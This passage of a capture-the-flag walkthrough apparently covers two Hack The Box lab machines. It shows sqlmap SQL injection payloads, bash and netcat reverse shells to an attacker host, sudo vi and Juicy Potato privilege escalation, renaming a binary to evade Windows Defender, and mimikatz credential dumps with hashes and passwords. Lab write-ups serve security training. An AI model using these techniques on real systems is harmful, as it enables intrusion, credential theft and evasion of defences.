[06:05:37] [INFO] checking if the target is protected by some kind of WAF/IPS
[06:05:37] [INFO] testing if the target URL content is stable
[06:05:37] [INFO] target URL content is stable
[06:05:37] [INFO] testing if GET parameter 'search' is dynamic
[06:05:38] [INFO] GET parameter 'search' appears to be dynamic
[06:05:38] [WARNING] heuristic (basic) test shows that GET parameter 'search' might not be injectable
[06:05:39] [INFO] heuristic (XSS) test shows that GET parameter 'search' might be vulnerable to cross-site scripting (XSS) attacks
[06:05:39] [INFO] testing for SQL injection on GET parameter 'search'
[06:05:39] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[06:05:42] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[06:05:43] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[06:05:45] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[06:05:46] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[06:05:48] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[06:05:50] [INFO] testing 'Generic inline queries'
[06:05:50] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[06:06:01] [INFO] GET parameter 'search' appears to be 'PostgreSQL > 8.1 stacked queries (comment)' injectable 
it looks like the back-end DBMS is 'PostgreSQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] 
for the remaining tests, do you want to include all tests for 'PostgreSQL' extending provided level (1) and risk (1) values? [Y/n] 
[06:06:41] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[06:06:41] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[06:06:49] [INFO] target URL appears to be UNION injectable with 5 columns
[06:06:50] [INFO] GET parameter 'search' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: search (GET)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: search=a' UNION ALL SELECT NULL,(CHR(113)||CHR(120)||CHR(106)||CHR(107)||CHR(113))||(CHR(102)||CHR(110)||CHR(81)||CHR(105)||CHR(113)||CHR(117)||CHR(67)||CHR(106)||CHR(83)||CHR(120)||CHR(76)||CHR(67)||CHR(103)||CHR(113)||CHR(73)||CHR(85)||CHR(102)||CHR(104)||CHR(107)||CHR(110)||CHR(114)||CHR(104)||CHR(99)||CHR(80)||CHR(81)||CHR(122)||CHR(109)||CHR(116)||CHR(112)||CHR(79)||CHR(114)||CHR(109)||CHR(71)||CHR(110)||CHR(120)||CHR(82)||CHR(118)||CHR(78)||CHR(103)||CHR(69))||(CHR(113)||CHR(106)||CHR(122)||CHR(120)||CHR(113)),NULL,NULL,NULL-- gCcK
---
[06:06:58] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[06:07:00] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.10.46'

[*] ending @ 06:07:00 /2021-03-11/
```

Sqlmap found the page to be vulnerable to multiple injections, and  identified the backend DBMS to be PostgreSQL. Getting code execution in  postgres is trivial using the `--os-shell` command.

```
# sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=2jdn17htv93irv8i5sni7ppkh7" --os-shell
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.5#stable}
|_ -| . [.]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 06:08:16 /2021-03-11/

[06:08:16] [INFO] resuming back-end DBMS 'postgresql' 
[06:08:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: search (GET)
    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: search=a';SELECT PG_SLEEP(5)--

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: search=a' UNION ALL SELECT NULL,(CHR(113)||CHR(120)||CHR(106)||CHR(107)||CHR(113))||(CHR(102)||CHR(110)||CHR(81)||CHR(105)||CHR(113)||CHR(117)||CHR(67)||CHR(106)||CHR(83)||CHR(120)||CHR(76)||CHR(67)||CHR(103)||CHR(113)||CHR(73)||CHR(85)||CHR(102)||CHR(104)||CHR(107)||CHR(110)||CHR(114)||CHR(104)||CHR(99)||CHR(80)||CHR(81)||CHR(122)||CHR(109)||CHR(116)||CHR(112)||CHR(79)||CHR(114)||CHR(109)||CHR(71)||CHR(110)||CHR(120)||CHR(82)||CHR(118)||CHR(78)||CHR(103)||CHR(69))||(CHR(113)||CHR(106)||CHR(122)||CHR(120)||CHR(113)),NULL,NULL,NULL-- gCcK
---
[06:08:17] [INFO] the back-end DBMS is PostgreSQL
back-end DBMS: PostgreSQL
[06:08:17] [INFO] fingerprinting the back-end DBMS operating system
[06:08:19] [INFO] the back-end DBMS operating system is Linux
[06:08:20] [INFO] testing if current user is DBA
[06:08:21] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[06:08:21] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> whoami
do you want to retrieve the command standard output? [Y/n/a] 
command standard output:
---
p
o
s
t
g
r
e
s
---
os-shell> 
```

This can be used to execute a bash reverse shell.

```
os-shell> bash -c 'bash -i >& /dev/tcp/10.10.15.4/4444 0>&1'
do you want to retrieve the command standard output? [Y/n/a] 
[08:37:19] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
```

```
$ nc -nvlp 4444                                
listening on [any] 4444 ...
connect to [10.10.15.4] from (UNKNOWN) [10.10.10.46] 45096
bash: cannot set terminal process group (2134): Inappropriate ioctl for device
bash: no job control in this shell
postgres@vaccine:/var/lib/postgresql/11/main$ whoami
whoami
postgres
```

### Privilege Escalation

Let's upgrade to a tty shell and continue enumeration.

```
SHELL=/bin/bash script -q /dev/null
```

Looking at the source code of `dashboard.php` in `/var/www/html` reveals the postgres password to be: `P@s5w0rd!`.

```
postgres@vaccine:/var/lib/postgresql/11/main$ cd /var/www/html
cd /var/www/html
postgres@vaccine:/var/www/html$ ls        
ls
bg.png
dashboard.css
dashboard.js
dashboard.php
index.php
license.txt
style.css
postgres@vaccine:/var/www/html$ cat dashboard.php
cat dashboard.php
<!DOCTYPE html>
<html lang="en" >
<head>
  <meta charset="UTF-8">
  <title>Admin Dashboard</title>
  <link rel="stylesheet" href="./dashboard.css">
  <script src="https://use.fontawesome.com/33a3739634.js"></script>

</head>
<body>
<!-- partial:index.partial.html -->
<body>
 <div id="wrapper">
 <div class="parent">
  <h1 align="left">MegaCorp Car Catalogue</h1>
<form action="" method="GET">
<div class="search-box">
  <input type="search" name="search" placeholder="Search" />
  <button type="submit" class="search-btn"><i class="fa fa-search"></i></button>
</div>
</form>
  </div>
  
  <table id="keywords" cellspacing="0" cellpadding="0">
    <thead>
      <tr>
        <th><span style="color: white">Name</span></th>
        <th><span style="color: white">Type</span></th>
        <th><span style="color: white">Fuel</span></th>
        <th><span style="color: white">Engine</span></th>
      </tr>
    </thead>
    <tbody>
	<?php
	session_start();
	if($_SESSION['login'] !== "true") {
	  header("Location: index.php");
	  die();
	}
	try {
	  $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
	}

	catch ( exception $e ) {
	  echo $e->getMessage();
	}

	if(isset($_REQUEST['search'])) {

	  $q = "Select * from cars where name ilike '%". $_REQUEST["search"] ."%'";

	  $result = pg_query($conn,$q);

	  if (!$result)
	  {
			    die(pg_last_error($conn));
	  }
	  while($row = pg_fetch_array($result, NULL, PGSQL_NUM))
	      {
		echo "
		  <tr>
		    <td class='lalign'>$row[1]</td>
		    <td>$row[2]</td>
		    <td>$row[3]</td>
		    <td>$row[4]</td>
		  </tr>";
	    }
	}
	else {
		
	  $q = "Select * from cars";

	  $result = pg_query($conn,$q);

	  if (!$result)
	  {
			    die(pg_last_error($conn));
	  }
	  while($row = pg_fetch_array($result, NULL, PGSQL_NUM))
	      {
		echo "
		  <tr>
		    <td class='lalign'>$row[1]</td>
		    <td>$row[2]</td>
		    <td>$row[3]</td>
		    <td>$row[4]</td>
		  </tr>";
	    }
	}


      ?>
    </tbody>
  </table>
 </div> 
</body>
<!-- partial -->
  <script src='https://cdnjs.cloudflare.com/ajax/libs/jquery/2.1.3/jquery.min.js'></script>
<script src='https://cdnjs.cloudflare.com/ajax/libs/jquery.tablesorter/2.28.14/js/jquery.tablesorter.min.js'></script><script  src="./dashboard.js"></script>

</body>
</html>
postgres@vaccine:/var/www/html$ 

```

This password can be used to view the user's sudo privileges.

```
postgres@vaccine:/var/lib/postgresql/11/main$ python3 -c "import pty;pty.spawn('/bin/bash')"

postgres@vaccine:/var/www/html$ sudo -l
sudo -l
[sudo] password for postgres: P@s5w0rd!

Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf

postgres@vaccine:/var/lib/postgresql/11/main$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

The user is allowed to edit the configuration `/etc/postgresql/11/main/pg_hba.conf` using vi. This can be leveraged to gain a root shell and access root.txt.

```
:!/bin/bash
root@vaccine:/var/lib/postgresql/11/main# whoami
root
root@vaccine:/var/lib/postgresql/11/main#cd /
root@vaccine:/# ls
ls
bin    etc             lib     lost+found  proc  snap      tmp      vmlinuz.old
boot   home            lib32   media       root  srv       usr
cdrom  initrd.img      lib64   mnt         run   swap.img  var
dev    initrd.img.old  libx32  opt         sbin  sys       vmlinuz
root@vaccine:/# cd root	
cd root
root@vaccine:~# ls
ls
pg_hba.conf  root.txt  snap
root@vaccine:~# cat root.txt
cat root.txt
dd6e058e814260bc70e9bbdef2715849
root@vaccine:~# 
```


## Shield (Microsoft, IIS and Mysql)

### Enumeration

**Note**: this starting point machine only features a `root.txt`

We begin by running an Nmap scan.

```
nmap -A -v 10.10.10.29 -p-
```

From the Nmap output, we find that IIS and MySQL are running on their  default ports. IIS (Internet Information Services) is a Web Server  created by Microsoft. 

```
# nmap -A -v 10.10.10.29 -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-11 20:11 EST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 20:11
Completed NSE at 20:11, 0.00s elapsed
Initiating NSE at 20:11
Completed NSE at 20:11, 0.00s elapsed
Initiating NSE at 20:11
Completed NSE at 20:11, 0.00s elapsed
Initiating Ping Scan at 20:11
Scanning 10.10.10.29 [4 ports]
Completed Ping Scan at 20:11, 0.26s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 20:11
Completed Parallel DNS resolution of 1 host. at 20:11, 0.03s elapsed
Initiating SYN Stealth Scan at 20:11
Scanning 10.10.10.29 [65535 ports]
Discovered open port 3306/tcp on 10.10.10.29
Discovered open port 80/tcp on 10.10.10.29
SYN Stealth Scan Timing: About 6.36% done; ETC: 20:19 (0:07:36 remaining)
SYN Stealth Scan Timing: About 17.50% done; ETC: 20:17 (0:04:48 remaining)
SYN Stealth Scan Timing: About 31.41% done; ETC: 20:16 (0:03:19 remaining)
SYN Stealth Scan Timing: About 47.39% done; ETC: 20:15 (0:02:14 remaining)
SYN Stealth Scan Timing: About 65.26% done; ETC: 20:15 (0:01:20 remaining)
SYN Stealth Scan Timing: About 84.69% done; ETC: 20:15 (0:00:33 remaining)
Completed SYN Stealth Scan at 20:14, 202.95s elapsed (65535 total ports)
Initiating Service scan at 20:14
Scanning 2 services on 10.10.10.29
Completed Service scan at 20:15, 6.53s elapsed (2 services on 1 host)
Initiating OS detection (try #1) against 10.10.10.29
Retrying OS detection (try #2) against 10.10.10.29
Initiating Traceroute at 20:15
Completed Traceroute at 20:15, 0.24s elapsed
Initiating Parallel DNS resolution of 2 hosts. at 20:15
Completed Parallel DNS resolution of 2 hosts. at 20:15, 0.03s elapsed
NSE: Script scanning 10.10.10.29.
Initiating NSE at 20:15
Completed NSE at 20:15, 4.18s elapsed
Initiating NSE at 20:15
Completed NSE at 20:15, 1.47s elapsed
Initiating NSE at 20:15
Completed NSE at 20:15, 0.00s elapsed
Nmap scan report for 10.10.10.29
Host is up (0.23s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3306/tcp open  mysql   MySQL (unauthorized)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016|2012|2008|10 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_10:1607
Aggressive OS guesses: Microsoft Windows Server 2016 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows 10 1607 (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.198 days (since Thu Mar 11 15:30:37 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 3306/tcp)
HOP RTT       ADDRESS
1   226.70 ms 10.10.14.1
2   227.05 ms 10.10.10.29

NSE: Script Post-scanning.
Initiating NSE at 20:15
Completed NSE at 20:15, 0.00s elapsed
Initiating NSE at 20:15
Completed NSE at 20:15, 0.00s elapsed
Initiating NSE at 20:15
Completed NSE at 20:15, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 221.78 seconds
           Raw packets sent: 131291 (5.780MB) | Rcvd: 167 (8.044KB)
```

Let's navigate to port 80 using a browser. (http://10.10.10.29/)


We see the default IIS starting page. 

### GoBuster

Let's use GoBuster to scan for any sub-directories or files that are hosted on the server. 

```
# gobuster dir -u http://10.10.10.29/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.29/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/03/11 20:37:41 Starting gobuster
===============================================================
/wordpress (Status: 301)
===============================================================
2021/03/11 20:39:27 Finished
===============================================================
┌──(root💀kali)-[/home/kali]
```

The scan reveals a folder named `wordpress`. Let's navigate to it (http://10.10.10.29/wordpress).

### Foothold

#### Wordpress

WordPress is a Content Management System (CMS) that can be used to  quickly create websites and blogs. Since we have already acquired the  password `P@s5w0rd!`, we can try to login to the WordPress site. We navigate to http://10.10.10.29/wordpress/wp-login.php and try to guess the username. Some common usernames are `admin` or `administrator`. The combination `admin : P@s5w0rd!` is successful and we gain administrative access to the site.

The administrative access can be leveraged through the msfmodule `exploit/unix/webapp/wp_admin_shell_upload`, to get a meterpreter shell on the system.

```
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set PASSWORD P@s5w0rd!
PASSWORD => P@s5w0rd!
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set USERNAME admin
USERNAME => admin
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress
TARGETURI => /wordpress
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 10.10.10.29
RHOSTS => 10.10.10.29
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set LHOST 10.10.15.4
LHOST => 10.10.15.4
msf6 exploit(unix/webapp/wp_admin_shell_upload) > run
[*] Started reverse TCP handler on 10.10.15.4:4444 
[*] Authenticating with WordPress using admin:P@s5w0rd!...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wordpress/wp-content/plugins/PMOoqwMKUM/mOTztKAzjR.php...
[*] Sending stage (39282 bytes) to 10.10.10.29
[*] Meterpreter session 2 opened (10.10.15.4:4444 -> 10.10.10.29:51398) at 2021-03-11 21:17:09 -0500
[!] This exploit may require manual cleanup of 'mOTztKAzjR.php' on the target
[!] This exploit may require manual cleanup of 'PMOoqwMKUM.php' on the target
[!] This exploit may require manual cleanup of '../PMOoqwMKUM' on the target

meterpreter > 
[+] Deleted mOTztKAzjR.php
[+] Deleted PMOoqwMKUM.php

meterpreter >
```

A netcat binary is uploaded to the machine for a more stable shell. 

#### Netcat

Let's use the following commands:

```bash
meterpreter > lcd /home/username/Downloads
```

lcd stands for "Local Change Directory", which we use to navigate to the local folder where nc.exe is located.

```bash
meterpreter > cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
meterpreter > upload nc.exe
[*] uploading  : /home/kali/Downloads/nc.exe -> nc.exe
[*] Uploaded -1.00 B of 58.00 KiB (-0.0%): /home/kali/Downloads/nc.exe -> nc.exe
[*] uploaded   : /home/kali/Downloads/nc.exe -> nc.exe
```

We then navigate to a writeable directory on the server (in our case `C:/inetpub/wwwroot/wordpress/wp-content/uploads`) and upload netcat. Let's start a netcat listener:

```bash
# nc -lvp 1234
```

Next, we can execute the following command in the meterpreter session to get a netcat shell:

```bash
msf > execute -f nc.exe -a "-e cmd.exe 10.10.15.4 1234"
```

```
# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.15.4] from (UNKNOWN) [10.10.10.29] 51413
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\wordpress\wp-content\uploads>systeminfo
systeminfo

Host Name:                 SHIELD
OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Member Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00376-30000-00299-AA303
Original Install Date:     2/4/2020, 12:58:01 PM
System Boot Time:          3/11/2021, 7:25:58 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.13989454.B64.1906190538, 6/19/2019
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-08:00) Pacific Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 908 MB
Virtual Memory: Max Size:  2,431 MB
Virtual Memory: Available: 1,274 MB
Virtual Memory: In Use:    1,157 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    MEGACORP.LOCAL
Logon Server:              N/A
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB3199986
                           [02]: KB4520724
                           [03]: KB4524244
                           [04]: KB4537764
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.29
                                 [02]: fe80::6d25:8198:9b5f:9b4d
                                 [03]: dead:beef::6d25:8198:9b5f:9b4d
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

### Privilege Escalation

Running the `sysinfo` command on the meterpreter session, we notice that this is a Windows Server 2016 OS, which is vulnerable to the [Rotten Potato](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) exploit. 

#### Juicy Potato

Juicy Potato is a variant of the exploit that allows service accounts on Windows to escalate to SYSTEM (highest privileges) by leveraging the BITS and the `SeAssignPrimaryToken` or `SeImpersonate` privilege in a MiTM attack.

We can exploit this by uploading the Juicy Potato [binary](https://github.com/ohpe/juicy-potato) and executing it. As before, we can use our meterpreter shell to do the upload and then we can use the netcat shell to execute the exploit.

```bash
meterpreter > lcd /home/username/Downloads
meterpreter > upload JuicyPotato.exe
```

**Note**: We will have to rename the Juicy Potato executable to something else, otherwise it will be picked up by Windows Defender.

```mv powershell
meterpreter > mv JuicyPotato.exe js.exe
```

We can create a batch file that will be executed by the exploit, and return a SYSTEM shell. Let's add the following contents to `shell.bat`:

```cmd
C:\inetpub\wwwroot\wordpress\wp-content\uploads>echo START C:\inetpub\wwwroot\wordpress\wp-content\uploads\nc.exe -e powershell.exe 10.10.15.4 1111 > shell.bat
```

Let's start another netcat listener:

```bash
nc -lvp 1111
```

Next, we execute the netcat shell using the following command.

```powershell
C:\inetpub\wwwroot\wordpress\wp-content\uploads>jp.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
jp.exe -t * -p C:\inetpub\wwwroot\wordpress\wp-content\uploads\shell.bat -l 1337
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\inetpub\wwwroot\wordpress\wp-content\uploads>
```

**Note**: We can use another CLSID `-c {bb6df56b-cace-11dc-9992-0019b93a3a84}`, if our payload is not working.

The root flag is located in `C:\Users\Administrator\Desktop`.

### Post Exploitation

Mimikatz can be used to dump cached passwords. 

```bash
meterpreter > cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
meterpreter > lcd /home/kali/Downloads
meterpreter > upload mimikatz.exe
[*] uploading  : /home/kali/Downloads/mimikatz.exe -> mimikatz.exe
[*] Uploaded -1.00 B of 1.25 MiB (0.0%): /home/kali/Downloads/mimikatz.exe -> mimikatz.exe
[*] uploaded   : /home/kali/Downloads/mimikatz.exe -> mimikatz.exe
```

We execute mimikatz and use the sekurlsa command to extract logon passwords:

```powershell
PS C:\inetpub\wwwroot\wordpress\wp-content\uploads> ./mimikatz.exe
./mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 217126 (00000000:00035026)
Session           : Interactive from 1
User Name         : sandra
Domain            : MEGACORP
Logon Server      : PATHFINDER
Logon Time        : 3/11/2021 7:27:25 PM
SID               : S-1-5-21-1035856440-4137329016-3276773158-1105
	msv :	
	 [00000003] Primary
	 * Username : sandra
	 * Domain   : MEGACORP
	 * NTLM     : 29ab86c5c4d2aab957763e5c1720486d
	 * SHA1     : 8bd0ccc2a23892a74dfbbbb57f0faa9721562a38
	 * DPAPI    : f4c73b3f07c4f309ebf086644254bcbc
	tspkg :	
	wdigest :	
	 * Username : sandra
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : sandra
	 * Domain   : MEGACORP.LOCAL
	 * Password : Password1234!
	ssp :	
	credman :	

Authentication Id : 0 ; 65638 (00000000:00010066)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/11/2021 7:26:08 PM
SID               : S-1-5-90-0-1
	msv :	
	 [00000003] Primary
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * NTLM     : 9d4feee71a4f411bf92a86b523d64437
	 * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
	tspkg :	
	wdigest :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP.LOCAL
	 * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
	ssp :	
	credman :	

Authentication Id : 0 ; 996 (00000000:000003e4)
Session           : Service from 0
User Name         : SHIELD$
Domain            : MEGACORP
Logon Server      : (null)
Logon Time        : 3/11/2021 7:26:07 PM
SID               : S-1-5-20
	msv :	
	 [00000003] Primary
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * NTLM     : 9d4feee71a4f411bf92a86b523d64437
	 * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
	tspkg :	
	wdigest :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : shield$
	 * Domain   : MEGACORP.LOCAL
	 * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
	ssp :	
	credman :	

Authentication Id : 0 ; 36403 (00000000:00008e33)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 3/11/2021 7:26:07 PM
SID               : 
	msv :	
	 [00000003] Primary
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * NTLM     : 9d4feee71a4f411bf92a86b523d64437
	 * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
	tspkg :	
	wdigest :	
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 209672 (00000000:00033308)
Session           : Service from 0
User Name         : DefaultAppPool
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 3/11/2021 7:27:04 PM
SID               : S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
	msv :	
	 [00000003] Primary
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * NTLM     : 9d4feee71a4f411bf92a86b523d64437
	 * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
	tspkg :	
	wdigest :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP.LOCAL
	 * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
	ssp :	
	credman :	

Authentication Id : 0 ; 167544 (00000000:00028e78)
Session           : Service from 0
User Name         : wordpress
Domain            : IIS APPPOOL
Logon Server      : (null)
Logon Time        : 3/11/2021 7:26:25 PM
SID               : S-1-5-82-698136220-2753279940-1413493927-70316276-1736946139
	msv :	
	 [00000003] Primary
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * NTLM     : 9d4feee71a4f411bf92a86b523d64437
	 * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
	tspkg :	
	wdigest :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP.LOCAL
	 * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
	ssp :	
	credman :	

Authentication Id : 0 ; 995 (00000000:000003e3)
Session           : Service from 0
User Name         : IUSR
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 3/11/2021 7:26:12 PM
SID               : S-1-5-17
	msv :	
	tspkg :	
	wdigest :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : LOCAL SERVICE
Domain            : NT AUTHORITY
Logon Server      : (null)
Logon Time        : 3/11/2021 7:26:08 PM
SID               : S-1-5-19
	msv :	
	tspkg :	
	wdigest :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	kerberos :	
	 * Username : (null)
	 * Domain   : (null)
	 * Password : (null)
	ssp :	
	credman :	

Authentication Id : 0 ; 65619 (00000000:00010053)
Session           : Interactive from 1
User Name         : DWM-1
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 3/11/2021 7:26:08 PM
SID               : S-1-5-90-0-1
	msv :	
	 [00000003] Primary
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * NTLM     : 9d4feee71a4f411bf92a86b523d64437
	 * SHA1     : 0ee4dc73f1c40da71a60894eff504cc732de82da
	tspkg :	
	wdigest :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : SHIELD$
	 * Domain   : MEGACORP.LOCAL
